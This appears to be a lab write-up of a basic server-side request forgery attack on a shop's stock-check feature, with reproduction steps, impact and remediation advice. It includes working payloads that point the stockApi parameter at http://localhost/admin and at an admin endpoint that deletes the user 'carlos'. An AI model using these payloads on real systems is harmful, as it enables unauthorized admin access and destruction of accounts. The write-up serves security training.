



# Exploiting Basic Server-Side Request Forgery (SSRF)

## Summary

The application is vulnerable to Server-Side Request Forgery (SSRF) because its stock check feature trusts user-supplied URLs to fetch data from internal systems. By modifying this target URL, an attacker can force the server to make unauthorized HTTP requests to its own internal services running on localhost, gaining access to administrative functionality that should not be publicly accessible.

---

## Description

Server-Side Request Forgery (SSRF) occurs when a web application fetches resources from a URL supplied by the user without proper validation. In this application, the "Check stock" functionality sends a URL through the `stockApi` parameter to retrieve inventory information.

Because the application does not validate the supplied URL, an attacker can replace the intended external endpoint with an internal address such as `http://localhost/`. The server then performs the request on behalf of the attacker, allowing access to internal resources including the administrative interface.

---

## Steps to Reproduce

### 1. Open a Product Page

Navigate to any product page and click the **Check stock** button.

### 2. Intercept the Request

Capture the request in Burp Suite and send it to Repeater.

```http
POST /product/stock HTTP/2

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

### 3. Access the Internal Admin Panel

Replace the value of the `stockApi` parameter:

```text
stockApi=http://localhost/admin
```

Send the request and review the response to identify administrative functionality and user management endpoints.

### 4. Delete the Target User

Update the parameter with the user deletion endpoint:

```text
stockApi=http://localhost/admin/delete?username=carlos
```

Send the request.

### 5. Verify the Result

The server processes the internal request and deletes the user account successfully.

---

## Proof of Concept

### Intercepting the Default Stock Check Request



### Accessing the Internal Admin Interface



### Deleting the User Carlos



### Lab Solved Successfully


---

## Impact

### Access to Restricted Interfaces

Attackers can access internal administration panels, dashboards, and services that are intended to be reachable only from the local server.

### Internal Network Reconnaissance

The vulnerable server can be used to interact with internal hosts and services, potentially revealing network architecture and exposed systems.

### Unauthorized Actions

Administrative functionality can be abused to modify application state, manipulate data, or perform destructive actions such as deleting user accounts.

---

## Remediation

### Implement URL Allow-Listing

Only allow requests to approved and trusted backend services. Reject requests targeting localhost, loopback addresses, and internal IP ranges.

### Avoid User-Controlled URLs

Use server-side identifiers instead of accepting complete URLs from users. Map identifiers to trusted backend endpoints internally.

### Restrict Network Access

Apply network segmentation and firewall rules to prevent public-facing systems from accessing sensitive internal administrative services.

### Validate and Sanitize Input

Perform strict validation on all user-supplied URLs and block requests to internal resources or unexpected protocols.